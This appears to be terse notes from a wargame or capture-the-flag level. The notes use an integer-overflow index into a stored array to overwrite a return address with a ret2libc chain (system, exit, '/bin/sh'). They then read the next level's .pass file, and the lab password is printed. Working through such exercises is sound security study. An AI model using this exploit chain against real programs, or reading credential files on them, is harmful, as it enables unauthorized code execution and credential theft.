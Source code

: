 1094795585
tab = 0xffffd544
eip = 0xffffd70c

offset = (0xffffffff - 0xffffd544) + 0xffffd70c
offset = (0xffffffff - 0xffffd544) + F7E45513
index = (0x100000000 / 4) + 114 = 1073741938

system 0xf7e6aed0, dec: 4159090384
exit hex: 0xf7e5eb70, dec: 4159040368
/bin/sh hex: 0xf7f897ec, dec: 4160264172

	> store
	> 4159090384
	> 1073741938
	> store
	> 4159040368
	> 115
	> store
	> 4160264172
	> 116
	> quit
	> cat /home/users/level08/.pass
<<< 7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC